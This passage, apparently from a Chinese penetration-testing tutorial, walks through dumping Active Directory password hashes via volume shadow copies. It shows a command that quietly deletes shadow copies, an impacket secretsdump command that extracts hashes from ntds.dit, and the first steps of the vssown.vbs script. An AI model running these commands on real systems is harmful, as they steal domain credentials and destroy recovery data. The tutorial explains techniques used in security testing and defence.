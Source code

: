 ```bash
vssadmin delete shadows /for=c: /quiet
```

[![](assets/1706090550-04ccc58af1b3bfeda2556b6d94053c18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095128-17164546-ba5b-1.png)  
Step 4：之后通过 impacket 来导出 hash 值

```bash
./secretsdump.py -system /root/vssadmin/SYSTEM -ntds /root/vssadmin/ntds.dit LOCAL
```

[![](assets/1706090550-c2d5601bd9fb0669c5d8f688cd1eeec5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095153-25f97c36-ba5b-1.png)

### vssown.vbs

与 vssadmin 程序类似，Tim Tomes 开发了 vssown([https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs) )，它是一个可视化的基本脚本，可以创建和删除卷影副本，从卸载的卷影副本运行任意可执行文件，以及启动和停止卷影复制服务。  
Step 1:启动影卷拷贝服务

```bash
cscript vssown.vbs /start
```

[![](assets/1706090550-6590d9891700d3036570db0bf75ecb53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124095217-343f07ac-ba5b-1.png)  
Step 2：创建一个 C 盘的影卷拷贝
